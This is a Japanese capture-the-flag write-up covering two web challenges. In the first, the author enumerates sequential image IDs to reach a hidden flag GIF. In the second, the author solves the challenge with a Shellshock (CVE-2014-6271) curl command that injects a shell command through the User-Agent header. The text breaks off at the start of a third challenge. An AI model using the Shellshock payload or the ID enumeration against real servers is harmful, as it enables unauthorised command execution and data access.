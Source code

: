 
## 191  超文書転送術    GIFアニメ生成サイト

htmlのソースを見てみると、生成画像に連番でidが降ってある。
画像は`/movies/view/9999`という形で取得する。
試しに`/movies/view/1`にアクセスするとforbidden。
他の画像はokあるいはnot foundなので、ここにflagがありそうだと判断できる。

gif画像を生成する際の通信をブラウザの開発者ツールで眺めていると、自分の生成した画像は`/movies/newgif/9999`という形で取得されていることに気付く。
となると`/movies/newgif/1`が怪しく、試すとflag画像がでてくる。

gif動画の1コマだけにflagが写るので、手元に落として分解。image magicを使う。

``` sh
$ convert +adjoin 1.gif flag.gif
$ ls
1.gif         flag-107.gif  flag-15.gif  flag-23.gif  flag-31.gif  flag-3.gif   flag-48.gif  flag-56.gif  flag-64.gif  flag-72.gif  flag-80.gif  flag-89.gif  flag-97.gif
flag-0.gif    flag-108.gif  flag-16.gif  flag-24.gif  flag-32.gif  flag-40.gif  flag-49.gif  flag-57.gif  flag-65.gif  flag-73.gif  flag-81.gif  flag-8.gif   flag-98.gif
flag-100.gif  flag-109.gif  flag-17.gif  flag-25.gif  flag-33.gif  flag-41.gif  flag-4.gif   flag-58.gif  flag-66.gif  flag-74.gif  flag-82.gif  flag-90.gif  flag-99.gif
flag-101.gif  flag-10.gif   flag-18.gif  flag-26.gif  flag-34.gif  flag-42.gif  flag-50.gif  flag-59.gif  flag-67.gif  flag-75.gif  flag-83.gif  flag-91.gif  flag-9.gif
flag-102.gif  flag-110.gif  flag-19.gif  flag-27.gif  flag-35.gif  flag-43.gif  flag-51.gif  flag-5.gif   flag-68.gif  flag-76.gif  flag-84.gif  flag-92.gif
flag-103.gif  flag-11.gif   flag-1.gif   flag-28.gif  flag-36.gif  flag-44.gif  flag-52.gif  flag-60.gif  flag-69.gif  flag-77.gif  flag-85.gif  flag-93.gif
flag-104.gif  flag-12.gif   flag-20.gif  flag-29.gif  flag-37.gif  flag-45.gif  flag-53.gif  flag-61.gif  flag-6.gif   flag-78.gif  flag-86.gif  flag-94.gif
flag-105.gif  flag-13.gif   flag-21.gif  flag-2.gif   flag-38.gif  flag-46.gif  flag-54.gif  flag-62.gif  flag-70.gif  flag-79.gif  flag-87.gif  flag-95.gif
flag-106.gif  flag-14.gif   flag-22.gif  flag-30.gif  flag-39.gif  flag-47.gif  flag-55.gif  flag-63.gif  flag-71.gif  flag-7.gif   flag-88.gif  flag-96.gif
```

## 192  超文書転送術    Network Tools

``` plain
GNU bash, version 4.1.2(1)-release (x86_64-redhat-linux-gnu)
```

というヒントが出た。shellshock(`CVE-2014-6271`)を試してみると、成功する。

``` sh
$ curl 'http://210.146.64.37:60888/exec' -H 'User-Agent: () { :;}; /bin/cat flag.txt' --data 'cmd=ps&option='
```

`flag={Update bash to the latest version!}`

## 194  超文書転送術    YamaToDo

まず、
